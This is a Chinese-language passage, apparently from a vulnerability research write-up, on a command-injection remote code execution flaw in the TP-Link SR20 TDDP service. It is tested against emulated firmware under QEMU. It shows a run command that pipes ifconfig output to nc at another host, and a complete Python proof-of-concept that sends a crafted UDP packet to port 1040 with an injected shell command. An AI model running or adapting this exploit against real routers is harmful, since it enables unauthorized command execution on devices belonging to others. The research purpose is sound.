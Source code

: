 qemu打开tddp：`./usr/bin/tddp`

宿主机执行exp：`python exp.py 10.10.10.2 "ifconfig|nc 10.10.10.1 7890"`

结果如下![fig14-res-nc](/TPlinkSR20_rce/fig14-res-nc.jpg)

右下角输出的是命令ifconfig的内容。



poc如下

```python
from pwn import *
from socket import *
import sys

tddp_port = 1040
recv_port = 12345
ip = sys.argv[1]
command = sys.argv[2]

s_send = socket(AF_INET,SOCK_DGRAM,0)
s_recv = socket(AF_INET,SOCK_DGRAM,0)

s_recv.bind(('',12345))

payload = '\x01\x31'.ljust(12,'\x00')	#01表示版本号，31是用来触发漏洞的，12是用来填充的，需要后面填充12个字符。
payload += "123|%s&&echo ;123"%(command) #；是用来分割的，后面的123是为了让分割之后后半部分不为空，可以看成是填充的。

s_send.sendto(payload,(ip,tddp_port))
s_send.close()

res,addr = s_recv.recvfrom(1024)
print res
```
